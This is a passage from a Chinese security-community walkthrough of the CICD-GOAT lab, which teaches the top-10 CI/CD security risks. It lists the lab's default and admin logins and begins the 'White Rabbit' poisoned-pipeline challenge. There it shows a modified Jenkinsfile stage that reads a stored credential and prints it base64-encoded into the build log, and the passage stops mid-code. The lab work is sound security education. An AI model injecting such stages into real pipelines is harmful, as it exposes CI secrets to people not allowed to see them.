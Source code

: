 

# 从CICD-GOAT靶场学习top-10-cicd-security-risks - 先知社区

从CICD-GOAT靶场学习top-10-cicd-security-risks

- - -

# CICD-GOAT

CICD-GOAT靶场是一个配置了CICD漏洞的靶场，从中可以学习到TOP10 CICD安全漏洞的地址。靶场地址是[https://github.com/cider-security-research/cicd-goat](https://github.com/cider-security-research/cicd-goat)  
按照官网的步骤安装可以。

```plain
Jenkins：http://localhost:8080
Username: alice
Password: alice
Gitea：http://localhost:3000
Username: thealice
Password: thealice
GitLab http://localhost:4000
Username: alice
Password: alice1234

如果你想仔细查看管理员是如何配置的环境，可以使用如下凭据登录后台：
CTFd
Username: admin
Password: ciderland5#
Jenkins
Username: admin
Password: ciderland5#
Gitea
Username: red_queen
Password: ciderland5#
Gitlab
Username:root
Password:ciderland5#
```

## White Rabbit

考察的是PPE漏洞。访问项目对应的gitea仓库，发现存在Jenkinsfile文件，git clone下来注入恶意代码：

```plain
pipeline {
    agent any
    environment {
        PROJECT = "src/urllib3"
    }

    stages {
stage('getflag') {
            steps {
                withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
                        sh '''
                            echo "flag1:".$flag1|base64
                        '''
                }
            }
        }
        stage ('Install_Requirements') {
            steps {
                sh """
```